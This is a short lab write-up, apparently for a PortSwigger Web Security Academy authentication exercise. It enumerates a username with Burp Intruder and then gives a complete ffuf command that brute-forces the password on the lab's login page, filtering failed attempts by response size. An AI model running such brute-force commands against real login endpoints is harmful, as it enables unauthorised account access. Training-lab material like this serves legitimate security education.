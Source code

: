 ### Username Bruteforcing with Burp Intruder

Let's paste the [Candidate usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames) into Burp's Intruder:

![picture 38](/assets/images/382a7965940c694ae036d8756a11c5ed811625c734dd9bb4073dd321273a7acd.png)  

We've found the user, which is `user`.

Let's bruteforce the password with `ffuf`

### Password Bruteforcing with `ffuf`

```
ffuf -w portswigger_passwords:FUZZ_PASS  -u "https://0a3e005e03bf0fbac09413a80059004c.web-security-academy.net/login" -d "username=user&password=FUZZ_PASS" --fs 3098
```
Mind that `--fs 3098` was added to filter out the requests which return `invalid password`. They all have same response size.
